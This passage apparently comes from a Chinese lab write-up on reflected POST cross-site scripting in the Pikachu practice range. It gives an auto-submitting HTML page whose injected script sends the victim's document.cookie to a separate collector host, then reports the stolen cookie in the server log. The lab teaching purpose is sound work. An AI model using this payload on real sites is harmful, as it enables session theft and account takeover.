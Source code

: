 ![](WEB漏洞靶场pikachu-xss\QQ截图20190321115915.png)

```html
<html>
<head>
	<script>
		window.onload = function() {
  			document.getElementById("postsubmit").click();
			}
	</script>
</head>
<body>
	<form method="post" action="http://192.168.100.26/pikachu/vul/xss/xsspost/xss_reflected_post.php">
    <input id="xssr_in" type="text" name="message" value=
    "<script>
		document.location = 'http://192.168.1.15/pkxss/xcookie/cookie.php?cookie=' + document.cookie;
	</script>" />
    <input id="postsubmit" type="submit" name="submit" value="submit" />
	</form>
</body>
</html>
```

查看服务器访问日志，发现Cookie被发回：

![](WEB漏洞靶场pikachu-xss\QQ截图20190321131526.png)

**漏洞分析**
